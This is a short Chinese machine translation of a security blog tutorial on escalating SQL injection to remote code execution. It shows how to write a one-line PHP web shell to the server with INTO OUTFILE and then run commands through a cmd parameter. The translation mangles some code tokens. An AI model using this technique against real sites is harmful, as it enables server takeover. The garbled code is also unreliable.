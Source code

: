 # 从 SQL 注入跳到 RCE

> 原文：<https://infosecwriteups.com/jumping-from-sql-injection-to-rce-ea354e5d4f94?source=collection_archive---------0----------------------->

在这种情况下，我们将利用 sql 注入错误来“跳转”到其他漏洞。

![](img/0e65208c0ee43fa5336b3829f672d322.png)

为此，我们必须拥有写权限并知道服务器装载的路径，他们可以使用@ [@datadir](http://twitter.com/datadir) 来完成，在这种情况下，我在错误屏幕上显示了路径

有了路径后，我们要做的是注入外壳，在这种情况下，这是一个简单的 php 后门:

php system ($ _ GET [“cmd”]); ?>

我们将使用以下方法注入它:

INTO + OUTFILE + 'path/name.php '

他们注入和文件将被加载到服务器上，现在我们访问。

![](img/248175e6323200eef017e0027a672b52.png)

输入文件后，将出现以下内容:

警告:system () [function.system]:不能在第 1 行的 F:\ content site \ cmd.php 中执行空白命令

这是因为我们已经在使用 php system()函数，我们必须将它与一些命令一起使用

![](img/086c5d84a55b337280b38149574492c0.png)

现在，最后一件事是使用 cmd 参数添加要执行的命令，该参数是我们在注入中使用的参数:($ _GET ["cmd"])

cmd.php？cmd =命令

![](img/69d374880b77e9babbafb247f550810a.png)![](img/d6eb3f5f8bcdf954ae8afbb36bd8ef0f.png)

这样你就可以以一种超快的方式从 sql 注入到 RCE。
